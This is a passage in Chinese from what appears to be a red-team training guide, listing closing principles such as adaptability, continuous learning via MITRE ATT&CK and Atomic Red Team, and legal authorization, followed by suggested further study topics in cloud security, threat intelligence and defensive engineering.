4. **灵活适应**：面对不同的防御环境（传统网络、云原生、混合架构），能够灵活选择和组合不同的攻击技术。没有万能的攻击方法，只有最适合当前环境的策略

5. **持续学习**：攻防技术不断演进。MITRE ATT&CK框架持续更新（每年新增20-30个技术），防御工具也在不断进步。红队需要持续跟踪最新的攻击技术和防御机制，通过Atomic Red Team、Infection Monkey等工具进行持续的技术验证

6. **法律合规**：所有红队行动必须在法律允许的范围内进行，获得目标组织的书面授权。红队的目的是帮助组织提升安全能力，而非造成实际损害

> **进阶方向**：掌握了本节的基础技术后，建议深入学习以下方向：
> - **MITRE ATT&CK框架**完整技术矩阵（attack.mitre.org），理解14个战术、200+技术、400+子技术的完整体系
> - **Atomic Red Team**：基于ATT&CK的自动化攻击模拟测试库，覆盖绝大多数ATT&CK技术
> - **APT威胁情报**：跟踪Mandiant、CrowdStrike、Microsoft等厂商的APT报告，了解真实对手的技术演进
> - **云安全攻防**：AWS/Azure/GCP安全模型和攻击技术，容器/Kubernetes安全
> - **防御工程**：理解EDR/XDR的检测原理，从防御视角优化攻击技术的隐蔽性
> - **团队协作**：红队不是孤军作战，与蓝队、紫队的协作能力同样重要
